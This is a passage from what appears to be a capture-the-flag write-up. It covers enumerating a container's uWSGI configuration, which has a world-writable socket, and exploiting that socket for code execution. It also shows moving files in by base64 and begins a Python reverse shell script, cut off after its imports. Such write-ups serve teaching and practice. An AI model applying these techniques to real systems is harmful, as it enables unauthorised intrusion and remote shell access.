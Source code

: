     Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sat Mar 14 15:10:33 2020 from 172.18.0.1
    qtc@aeb4525789d8:~$
    

## Shell as www-data on consumer container

### Enumeration

This container is very bare, other than the the application, which lives in
`/code`. There’s a couple interesting things here. First, it’s using uWSGI to
glue NGINX to the Python Flask application. I can see the config file:

    
    
    qtc@aeb4525789d8:/code$ cat uwsgi.ini 
    [uwsgi]
    module = oouch:app
    uid = www-data
    gid = www-data
    master = true
    processes = 10
    socket = /tmp/uwsgi.socket
    chmod-sock = 777
    vacuum = true
    die-on-term = true
    

I’ll also dig into the code itself, but for the next step.

### Exploit

#### Vulnerability

Searching around for `uwsgi exploits` I found [this
GitHub](https://github.com/wofeiwo/webcgi-exploits). It lists a Chinese
website with a POC for exploiting uWSGI. The basic idea if that if I can write
to the uWSGI socket, I can get code execution.

#### Container Limitations

This container is stripped down - It has no `curl`, no `nc`, no `ping`, no `wget`, no text editors (`vi`, `vim`, `nano`, `pico`, `ed`). It does have Python, which is useful. I moved files by base64 encoding them on my host (`base64 -w0 [filename]`), copying the output, and then running `echo "[paste]" | base64 -d > [desired file]`. I could have also used `scp` twice, first to Oouch, then to the container.

To get a shell, I turned a typical Python reverse shell into a `.py` file, and
moved it to the container just like above.

    
    
    #!/usr/bin/env python
    
    import os
    import pty
    import socket
    import subprocess
    